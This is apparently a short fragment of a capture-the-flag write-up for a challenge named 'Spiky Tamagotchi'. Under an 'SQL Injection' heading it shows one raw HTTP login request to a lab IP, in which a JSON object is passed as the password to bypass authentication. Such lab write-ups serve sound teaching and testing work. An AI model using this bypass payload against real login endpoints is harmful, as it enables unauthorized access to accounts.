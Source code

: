 ![Untitled](../../zzz_res/attachments/Spiky%20Tamagotchi%2065add0ecf061497a926471dfb120eb33%203.png)

# Exploitation

## SQL Injection

```http
POST /api/login HTTP/1.1
Host: 192.168.1.199:1337
Content-Length: 46
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://192.168.1.199:1337
Referer: http://192.168.1.199:1337/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"username":"admin","password":{"password":1}}
```
